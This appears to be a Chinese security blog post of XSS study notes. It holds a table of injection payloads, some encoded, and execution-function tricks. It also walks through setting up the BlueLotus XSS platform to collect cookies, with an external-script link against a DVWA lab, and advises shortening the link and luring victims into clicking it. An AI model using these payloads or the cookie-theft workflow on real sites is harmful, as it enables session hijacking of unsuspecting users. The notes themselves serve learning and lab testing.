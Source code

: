 ```yaml
---
layout:     post
title:      "XSS"
subtitle:   ""
date:       2020-12-17 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - xss
    - web安全
typora-root-url: ../../luckseal.github.io
---
```




# 基本知识

## xss

xss是由于未严格过滤用户输入，导致html网页内容可由用户输入控制，从而实现js语句插入，完成某些操作。

## XSS分类

反射性XSS

储存性XSS

DOM型XSS

## XSS输出位置

* HTML

* JS

* 属性值
* 注释



# 位置

| 标签 | 属性 | 例                              | 编码                  | 交互                  |
| ---- | ------- | ------------------------------- | ------------------------------- | ------------------------------- |
| img  | onerror | `<img src=x onerror=prompt(1);>` |  | 否 |
| video | onerror | `<video src=x onerror=prompt(1);>` |  | 否 |
| audio | onerror | `<audio src=x onerror=prompt(1);>` |  | 否 |
| iframe | src | `<iframe src="javascript:alert(1)">` | ```<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">``` | 否 |
| embed | src | `<embed/src=//xx.com/aa>` |  | 否 |
| form | action | `<form action="Javascript:alert(1)"><input type=submit>` |  ```<form action='data:text&sol;html,&lt;script&gt;alert(1)&lt/script&gt'><button>CLICK``` | 是 |
| form | formaction | `<form><button formaction=javascript&colon;alert(1)>CLICKME` |  | 是 |
| object | Data | `<object/data=//xx.com/a` |  `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">`| 否 |
| svg | onload | `<svg/onload=prompt(1);>` |  | 否 |
| marquee | onstart | `<marquee/onstart=confirm(1)>/` |  | 否 |
| body | onload | `<body onload=prompt(1);>` |  | 否 |
| select | onfocus | `<select autofocus onfocus=alert(1)>` | | 否 |
| textarea | onfocus |`<textarea autofocus onfocus=alert(1)>`  | | 否 |
| video | onerror |`<video><source onerror="javascript:alert(1)">`  | | 否 |
| a | onmouseover | `<a onmouseover=location='javascript:alert(1)'>click` | | 是 |
|a | href | `<a href="javascript:alert(1)//">Click</a>` | |是 |



# 绕过

## 代码执行函数

### eval

`eval("alert()")`

### setTimeout

`setTimeout("alert()",0)`

### setInterval

`var i = setInterval("alert();clearInterval(i);",0);`

### 浏览器特有函数

如`ie`的`execScript`等，这里不过多关注。





# 利用方式

## xss平台

XSS平台是编写用于辅助XSS攻击的平台，可以将攻击语句放到XSS平台，然后在XSS位置包含进去，以及可以用它接收cookie等信息。



### bluelotus平台

```下载Dockerfile，执行命令如下：
docker build -t bluelotus .

docker run -d -p 801:80 bluelotus

默认密码为：bluelotus
```

![image-20201217145920072](/img/2020-12-17-XSS/image-20201217145920072.png)

```
登录xss平台，选择公共模板中的default.js，修改website值为XSS平台站点地址即可，然后复制生成的js地址，在xss漏洞页面引入我们生成的恶意js语句。
以DVWA DOM型XSS为例，此时恶意链接为：
http://192.168.74.131:800/vulnerabilities/xss_d/?default=<script src="http://192.168.74.131:801/template/default.js"></script>
```

![image-20201217150114653](/img/2020-12-17-XSS/image-20201217150114653.png)

`为了更好的隐蔽，可以将当前恶意链接生成为短地址。`

![image-20201217150145677](/img/2020-12-17-XSS/image-20201217150145677.png)

`将恶意短地址链接发送给被攻击者，引诱其点击。（生成时有些网站会将XSS语句过滤）`





# 黑盒检测





# 流量检测





# 参考

[常见几种跨站脚本漏洞安全测试](http://www.xwood.net/_site_domain_/_root/5870/5874/t_c268566.html)